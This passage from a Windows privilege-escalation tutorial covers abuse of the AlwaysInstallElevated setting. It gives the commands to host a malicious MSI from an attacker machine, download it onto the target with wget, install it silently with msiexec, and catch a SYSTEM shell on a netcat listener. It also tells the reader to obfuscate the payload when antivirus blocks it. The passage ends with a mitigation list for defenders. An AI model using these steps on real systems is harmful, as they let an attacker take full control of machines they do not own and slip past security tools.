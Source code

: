 ```bash
python3 -m http.server 8000
```

On target:

```powershell
wget http://<your-ip>:8000/shell.msi -OutFile shell.msi
msiexec /quiet /qn /i shell.msi
```

4. Netcat listener on attacker's machine:

```bash
nc -lvnp 4444
```

5. SYSTEM shell opened!

---

## ➤ **4.4.6 How to Verify Successful Exploitation**

Run this command after installing the MSI:

```powershell
whoami
```

Expected output:

```
nt authority\system
```

You now have full control!

---

## ➤ **4.4.7 Common Mistakes to Avoid**

❌ Only one registry key enabled → exploit won’t work
❌ Using incorrect architecture MSI → fails or crashes
❌ Antivirus blocks payload → obfuscate or use manual tools
❌ Running without checking permissions → no effect

---

## ➤ **4.4.8 How to Mitigate AlwaysInstallElevated Abuse**

✔ Regularly audit registry keys using group policies
✔ Set `AlwaysInstallElevated` to `0` in both HKCU and HKLM
✔ Restrict MSI installation rights to trusted admins only
✔ Monitor installation events in Event Viewer
✔ Remove unnecessary deployment settings after installation

Commands to disable:
